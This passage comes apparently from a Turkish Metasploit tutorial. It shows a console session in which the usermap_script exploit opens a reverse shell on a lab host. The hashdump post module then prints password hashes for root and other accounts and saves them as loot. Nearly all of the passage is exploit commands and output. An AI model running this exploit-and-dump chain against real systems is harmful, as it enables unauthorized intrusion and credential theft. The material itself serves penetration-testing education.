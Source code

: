 

Ardından **usermap_script** modülü kullanılarak karşı sistemde oturum açılmakta ve açılan session yani oturum için, **hashdump** modülü ile hash değerleri bulunmaktadır. Başarılı olunduğu takdirde bulunan hash değerleri sonradan kullanım için `loot` tablosuna kayıt edilmektedir.


```bash
msf  exploit**(**usermap_script**)** **&gt;** exploit

**[*********]** Started reverse double handler
**[*********]** Accepted the first client connection...
**[*********]** Accepted the second client connection...
**[*********]** Command: echo 4uGPYOrars5OojdL;
**[*********]** Writing to socket A
**[*********]** Writing to socket B
**[*********]** Reading from sockets...
**[*********]** Reading from socket B
**[*********]** B: "4uGPYOrars5OojdL\r\n"
**[*********]** Matching...
**[*********]** A is input...
**[*********]** Command shell session 1 opened **(**172.16.194.163:4444 -&gt; 172.16.194.172:55138**)** at 2012-06-27 19:38:54 -0400

^Z
Background session 1? **[**y/N]  y

msf  exploit**(**usermap_script**)** **&gt;** use post/linux/gather/hashdump
msf  post**(**hashdump**)** **&gt;** show options

Module options **(**post/linux/gather/hashdump**)**:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.

msf  post**(**hashdump**)** **&gt;** sessions -l

Active sessions
**===============**

  Id  Type        Information  Connection
  --  ----        -----------  ----------
  1   shell unix               172.16.194.163:4444 -&gt; 172.16.194.172:55138 **(**172.16.194.172**)**

msf  post**(**hashdump**)** **&gt;** run

**[**+] root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:0:0:root:/root:/bin/bash
**[**+] sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:3:3:sys:/dev:/bin/sh
**[**+] klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:103:104::/home/klog:/bin/false
**[**+] msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
**[**+] postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
**[**+] user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:1001:1001:just a user,111,,:/home/user:/bin/bash
**[**+] service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:1002:1002:,,,:/home/service:/bin/bash
**[**+] Unshadowed Password File: /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.hashes_264208.txt
**[*********]** Post module execution completed
```
